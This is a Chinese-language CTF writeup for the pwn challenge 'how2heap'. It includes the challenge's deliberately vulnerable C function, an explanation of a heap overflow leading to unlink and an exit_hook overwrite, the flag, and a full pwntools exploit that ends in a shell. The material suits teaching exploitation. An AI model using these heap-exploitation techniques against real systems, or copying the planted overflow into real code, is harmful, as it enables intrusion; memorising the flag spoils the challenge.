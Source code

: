 * 题目名称：how2heap
* 题目类型：Pwn
* 出题人：Qanux
* 题目难度：中等
* 考点：exit_hook unlink 
* 描述：很多地方没有处理好，坐等非预期解
* hint：
    1、想想有什么地方可以泄露libc地址
* flag:XSCTF{It_took_me_a_long_time_to_work_out_this_problem}
* other:release文件夹中的文件才是公布出去的题目  
        ctf_xinetd文件夹是打包好的docker环境
* writeup:  
### 程序逻辑  
程序可以进行的操作有  
* add:新建一个chunk并在chunk中写上内容  
* delete：删除一个已有的chunk，free后将指针指向NULL，不存在UAF漏洞
* show:显示指定chunk中的内容 
* edit：对指定的chunk的内容进行编辑，不过只能对第8和第9个chunk进行操作  
### 漏洞分析  
整个程序只有一个地方存在漏洞，改漏洞在菜单页时输入114514即可进入这个函数，下面为该函数的出题源码：  
```C
void sub_4040(){
    if(have_list[7]==0){
        return;
    }
    else if(one==0){
        one=1;
        int size = 0x10;
        a = malloc(size);
        return;
    }
    else if(one == 1){
        one = 2;
        read(0,a,0x20); 
        puts_ptr = &puts;
        return;
    }
    else
    exit(0);
}
```
可以看到该函数只有在第8个chunk给创建后才可以进行操作，而且只能够调用两次  
* 第一次：创建一个0x20大小的堆块(包括堆块头)  
* 第二次：向刚才创建的堆块中读入0x20字节的内容，并将堆上的函数指针指向puts函数的地址  
可见这个地方出现了0x10大小的堆溢出，0x10字节大小的溢出好可以覆盖下一个堆块的prev_size字段和size字段  
### 漏洞利用  
* 首先创建8个大小相同的堆块，然后调用sub_4040()函数，然后再创建第9个和前面大小相同的堆块  
* 然后将前7个chunk给释放掉，次数tcache已经给填满，然后利用edit在第8个chunk中伪造fake_chunk，并第二次调用sub_4040()将第9个chunk的pre_size和size进行修改，具体操作为：  
```python
p.sendline(str(114514))
payload = b'a' * 0x10 + p64(0xd0) + p64(0xc0)
p.sendline(payload)

payload = p64(0) + p64(0xd1) + p64(0x4040b8 - 0x18) + p64(0x4040b8 - 0x10)
edit(7,payload)
```  
* 此时将chunk 9删除后即可进行unlink，对任意内存进行读写。unlink的原理可以参考这一篇文章：https://blog.csdn.net/qq_41202237/article/details/108481889  
* 正常想法是通过unlink在got表处获取libc地址，可是这一题程序开启了Full RELRO，got表不可写，如果将指针指向got泄露完地址后就不能进行任何操作了，约等于这个unlink用完了，而且chunk的申请次数已经用完，无法再次进行unlink操作。  
* 想起前面第二次调用sub_4040()函数时有个函数指针指向了puts的地址，我们可以通过它来泄露地址，并且可以在edit时通过填充偏移另chunk 8的指针指向我们要修改的地方，进行修改  
* 这题将free_hook修改为ogg无法getshell,所以我们选择改exit_hook，exit_hook的相关利用可以参考这篇文章：https://www.cnblogs.com/pwnfeifei/p/15759130.html  
### 完整exp：
```python
from pwn import *
from LibcSearcher import *
from ctypes import *
from struct import pack

# p = process(["./ld-linux-x86-64.so.2", "./test"],
#             env={"LD_PRELOAD":"./libc.so.6"})

# p = process(["/mnt/d/desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so", "./my"],
#             env={"LD_PRELOAD":"/mnt/d/desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6"})

# p = process('./pwn')
p = remote("", )
context(arch='arm64', os='linux', log_level='debug')
elf = ELF('./task')
libc = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')

execve = [0xe3afe, 0xe3b01, 0xe3b04]

def add(size,content):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'1')
    p.recvuntil('size:\n')
    p.sendline(str(size))
    p.recvuntil('content:\n')
    p.sendline(content)

def show(index):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'4')
    p.recvuntil('index:\n')
    p.sendline(str(index))

def delete(index):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'2')
    p.recvuntil('index:\n')
    p.sendline(str(index))

def edit(index,content):
    p.recvuntil("please input your choice:\n")
    p.sendline(b'3')
    p.recvuntil('index:\n')
    p.sendline(str(index))
    p.recvuntil('content:\n')
    p.send(content)

for i in range(7):
    add(0xb0,b'aaaaa')

add(0xb0,b'aaaaa')
p.sendline(str(114514))
add(0xb0,b'aaaaa')

for i in range(7):
    delete(str(i))

p.recvuntil("please input your choice:\n")

p.sendline(str(114514))
payload = b'a' * 0x10 + p64(0xd0) + p64(0xc0)
p.sendline(payload)

payload = p64(0) + p64(0xd1) + p64(0x4040b8 - 0x18) + p64(0x4040b8 - 0x10)
edit(7,payload)
delete(8)

payload = p64(0) * 3 + p64(0x404060)
edit(7,payload)
show(7)
puts_addr = u64(p.recv(6).ljust(8,b"\x00"))
print("puts_addr =",hex(puts_addr))

libc_base = puts_addr - libc.symbols['puts']
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

ld_base = libc_base + 0x1f4000
_rtld_global = ld_base + ld.sym['_rtld_global']
_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10

for i in range(3):
    execve[i] += libc_base

payload = p64(0) * 11 + p64(_dl_rtld_lock_recursive)
edit(7,payload)
edit(7,p64(execve[0]))
p.sendline(b'6')

p.interactive()
```



